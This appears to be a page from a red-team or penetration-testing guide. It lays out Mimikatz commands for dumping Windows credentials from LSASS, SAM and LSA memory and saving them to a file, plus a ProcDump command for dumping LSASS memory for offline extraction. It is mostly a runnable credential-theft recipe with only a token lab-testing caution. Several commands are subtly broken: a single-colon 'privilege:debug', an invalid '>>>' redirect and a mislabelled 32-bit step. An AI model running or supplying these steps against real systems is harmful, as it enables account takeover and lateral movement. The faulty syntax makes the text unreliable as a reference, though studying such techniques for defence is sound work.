     * Before running MimiKatz in a production environment, test it in a lab environment to verify functionally and prevent potential issues. (Example system instability). 


#### Credential extraction on the local machine. 

1. **Start Mimikatz** from a specific location

```cmd
mimikatz.exe
```

2. **Grant Debug Passwords** to interact with system memory

```cmd
privilege::debug
```

3. **Dump Logon Passwords** from LSASS (Local Security Authority Subsystem Service):

```cmd
sekurlsa::logonpasswords
```

4. **Dump SAM (Security ACccount Manager) Data**:

```cmd
lsadump::sam
```

5. **Patch LSA (Local Security Authority) memory**:

```cmd
lsadump::lsa /patch
```

6. **Execute a Combined Command to extract passwords and save to a file.**

```cmd
./mimikatz.exe "privilege:debug" "sekurlsa::logonpasswords" exit
```

To save output to a file

```cmd
./mimikatz.exe "privilege:debug" "sekurlsa::logonpasswords" exit >>> hash.txt
```

---

### Using LSASS Memory Dumps (lsass.dmp)

if you cannot run Mimikatz directly due to security restrictions, you can dump LSASS memory and analyze it offline.

#### Steps to Dump LSASS Memory.

1. **Download ProcDump from Microsoft Sysinternals.** [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)
2. **Dump LSASS Memory for 32-bit system.**

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
